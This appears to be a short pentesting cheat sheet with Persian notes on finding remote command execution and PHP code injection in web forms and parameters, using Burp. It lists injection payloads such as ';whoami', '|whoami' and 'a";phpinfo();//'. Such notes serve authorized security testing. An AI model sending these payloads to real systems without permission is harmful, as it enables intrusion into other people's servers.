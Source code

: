 # Remote Command Execution

## Concept
- در بخش های زیر به دنیال این آسیب پذیری می گردیم
  - انتخاب یک آیتم از درون dropdown box
  - (باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم)
- درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
  - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php


